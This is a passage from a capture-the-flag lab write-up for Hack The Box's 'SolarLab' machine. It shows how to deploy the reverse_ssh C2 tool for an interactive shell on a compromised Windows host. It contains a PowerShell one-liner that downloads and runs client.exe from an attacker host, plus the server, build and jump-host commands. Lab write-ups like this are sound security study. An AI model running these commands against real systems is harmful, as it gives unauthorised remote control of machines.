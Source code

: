 ### Reverse SSH - Interactive shell

> https://github.com/NHAS/reverse_ssh

Start server

```bash
cd /opt/sectools/c2/reverse_ssh/bin && ./server 0.0.0.0:443
```

Build the client

```bash
┌──(bravosec㉿fsociety)-[/opt/sectools/c2/reverse_ssh]
└─$ RSSH_HOMESERVER=10.10.14.71:443 make
```

Download and start the client

```bash
PS C:\Users\blake\Documents\app> (new-object System.Net.WebClient).DownloadFile('http://10.10.14.21/client.exe', '\programdata\client.exe'); \programdata\client.exe 
```

Connect to the client, now I have **ssh**'s functionalities

```bash
┌──(bravosec㉿fsociety)-[~/htb/SolarLab]
└─$ ssh 127.0.0.1 -p 443 ls -t
Warning: Permanently added '[127.0.0.1]:443' (ED25519) to the list of known hosts.
                                      Targets
+------------------------------------------+--------+-------------------------------------+
| IDs                                      | Owners | Version                             |
+------------------------------------------+--------+-------------------------------------+
| 5f312665ce718befd61b3c06d408918b582d1637 | public | SSH-v2.5.1-2-ga237613-windows_amd64 |
| 8731957ca24aa1ebfc8fa061e66a5633e0dd7a6c |        |                                     |
| solarlab.blake.solarlab                  |        |                                     |
| 10.129.119.197:56680                     |        |                                     |
+------------------------------------------+--------+-------------------------------------+
```

```bash
┌──(bravosec㉿fsociety)-[~/htb/SolarLab]
└─$ ssh -J 127.0.0.1:443 solarlab.blake.solarlab
Warning: Permanently added '[127.0.0.1]:443' (ED25519) to the list of known hosts.
Warning: Permanently added 'solarlab.blake.solarlab' (ED25519) to the list of known hosts.
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Users\blake\Documents\app>
```

# Root Flag
---
